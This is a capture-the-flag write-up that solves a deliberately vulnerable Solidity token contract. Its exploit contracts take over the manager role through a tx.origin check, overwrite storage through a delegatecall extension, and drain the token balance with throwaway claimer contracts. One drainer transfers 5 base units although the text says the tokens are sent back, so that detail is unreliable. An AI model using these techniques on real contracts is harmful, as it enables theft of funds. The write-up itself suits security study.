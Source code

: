# Diamond - Web3

## Challenge

We get one contract of a ERC20 token, and want to get all of it out of the contract.

```
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// The following contract is vulnerable on purpose: DO NOT COPY AND USE IT ON MAINNET!
contract Diamond is ERC20("Diamond", "DMD") {
    address private manager;
    address private extension;
    mapping(address => bool) private redeemers;
    uint256 private bonusRedeemsLeft = 5;
    uint256 private constant diamond = 10 ** 18; // 18 is the default decimals number

    constructor() {
        manager = msg.sender;
        _mint(address(this), 1000 * diamond);
    }

    function recovery(address newManager) public {
        require(tx.origin == manager);
        manager = newManager;
    }

    function getFirstRedeemerBonus() public {
        require(bonusRedeemsLeft > 0);
        require(redeemers[msg.sender] == false);
        bonusRedeemsLeft -= 1;
        redeemers[msg.sender] = true;
        bool success = this.transfer(msg.sender, 5 * diamond);
        require(success);
    }

    function setExtension(address newExtension) public {
        require(msg.sender == manager);
        extension = newExtension;
    }

    function callExtension(bytes memory _data) public {
        (bool success, ) = extension.delegatecall(_data);
        require(success);
    }
}
```

## Solution

The vulnerability is the use of tx origin. Through the faucet, which has the same address as the owner we can forward the message to the recovery() function and set ourself to the manager. I used this contract to do that, by deploying it and then calling the faucet with its address.

```
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "Diamond.sol";

contract restter
{
    Diamond target;

    constructor(address _target) {
        target = Diamond(_target);
    }

    receive() payable external
    {
        target.recovery(0xYourAddress);
    }
}
```

Now that you're the manager you can call setExtension() to set it to your own extension. I deployed the following contract and then set the extension to it's address.

```
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract extension is ERC20("Diamond", "DMD")
{
    address public manager;
    address public extension;
    mapping(address => bool) private redeemers;
    uint256 public bonusRedeemsLeft;
    uint256 private constant diamond = 10 ** 18;

    function attack() public 
    {
        bonusRedeemsLeft = 69420;
    }
}

```

Now you have to call that extension through the callExtension() function. You could've probably also done that directly from your address, but i wrote a small contract that does it for you.

```
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "Diamond.sol";
import "extension.sol";

contract redeemsOverwriter
{
    Diamond target;

    constructor(address _target) {
        target = Diamond(_target);
        target.callExtension(abi.encodeWithSelector(extension.attack.selector));
    }
}

```

Now that the max amount of free redeems is super high you can start draining the contract. As it only checks if your address has already requested one free redeem, you can just create arbitrary contracts and send the money back to you. I created one small contract that requests a free redeem and then sends it back to you.

```
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "./Diamond.sol";

contract drainer
{
    Diamond target;

    constructor(address _target) {
        target = Diamond(_target);
        target.getFirstRedeemerBonus();
        target.transfer(0x2C17A5f47FF94Be930E74483BDa8FE0D3616AA1E, 5);
    }
}
```

As i would have needed to call this script 200 times i wrote a big drainer that just does it 20x as fast.

```
// SPDX-License-Identifier: Unlicensed

pragma solidity ^0.8.17;

import "./drainer.sol";

contract bigDrainer
{
    Diamond target;

    constructor(address _target) {
        for (int i = 0; i <20; i++)
        {
            new drainer(_target);
        }
    }
}
```

Now i just created this contract 10x, and i had all the money.

--> Flag

